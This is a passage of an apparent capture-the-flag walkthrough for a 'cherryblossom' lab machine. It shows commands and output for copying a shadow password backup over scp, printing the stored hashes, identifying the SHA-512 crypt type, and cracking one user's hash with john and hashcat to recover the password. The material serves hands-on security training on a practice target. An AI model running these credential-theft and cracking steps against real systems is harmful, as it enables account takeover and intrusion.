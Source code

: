 **SSH File Transfer Phase**

`scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/passwd.bak /root/Desktop/CyberLearningFramework/cherryblossom/passwd.bak`

```bash
lily@cherryblossom.thm's password: 
scp: remote open "/var/backups/passwd.bak": Permission denied
```

`scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/shadow.bak /root/Desktop/CyberLearningFramework/cherryblossom/shadow.bak`

```bash
lily@cherryblossom.thm's password: 
shadow.bak  
```

`mv shadow.bak lilyshadow`

`cat lilyshadow` 

```bash
root:$6$l81PobKw$DE0ra9mYvNY5rO0gzuJCCXF9p08BQ8ALp5clk/E6RwSxxrw97h2Ix9O6cpVHnq1ZUw3a/OCubATvANEv9Od9F1:18301:0:99999:7:::

[REDACTED] - MORE

johan:$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0:18301:0:99999:7:::
lily:$6$3GPkY0ZP$6zlBpNWsBHgo6X5P7kI2JG6loUkZBIOtuOxjZpD71spVdgqM4CTXMFYVScHHTCDP0dG2rhDA8uC18/Vid3JCk0:18301:0:99999:7:::
sshd:*:18301:0:99999:7:::
```

> **SHA512 Password Cracking & Switch User**
> 

`hashid '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0’`

```bash
[+] SHA-512 Crypt
```

`echo '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' > shadowhash`

`sudo john --wordlist=cherry-blossom.list shadowhash`

```bash
##scuffleboo##   (?) 
```

`hashcat -m1800 -a0 --force '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' cherry-blossom.list`

```bash
$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0:##scuffleboo##
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))

[REDACTED] - MORE
```

